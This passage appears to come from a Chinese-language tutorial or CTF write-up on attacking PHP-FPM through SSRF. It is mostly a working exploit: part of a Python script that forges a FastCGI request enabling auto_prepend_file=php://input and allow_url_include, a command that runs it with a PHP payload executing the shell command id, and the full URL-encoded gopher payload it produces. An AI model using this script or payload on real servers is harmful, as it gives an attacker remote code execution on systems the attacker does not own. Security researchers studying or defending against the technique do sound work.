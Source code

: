 ```python
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
 
    args = parser.parse_args()
 
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    response = urllib.quote(response)
    print("gopher://127.0.0.1:" + str(args.port) + "/_" + response)

```

使用脚本，运行下列命令

```php
python fpm_ssrf.py -c '<?php echo `id`;exit;?>' -p 9000 127.0.0.1 /usr/local/lib/php/PEAR.php
```

得到Gopher协议包数据

```php
gopher://127.0.0.1:9000/_%01%01z1%00%08%00%00%00%01%00%00%00%00%00%00%01%04z1%01%E7%00%00%0E%02CONTENT_LENGTH23%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/lib/php/PEAR.php%0B%1BSCRIPT_NAME/usr/local/lib/php/PEAR.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/lib/php/PEAR.php%01%04z1%00%00%00%00%01%05z1%00%17%00%00%3C%3Fphp%20echo%20%60id%60%3Bexit%3B%3F%3E%01%05z1%00%00%00%00
```
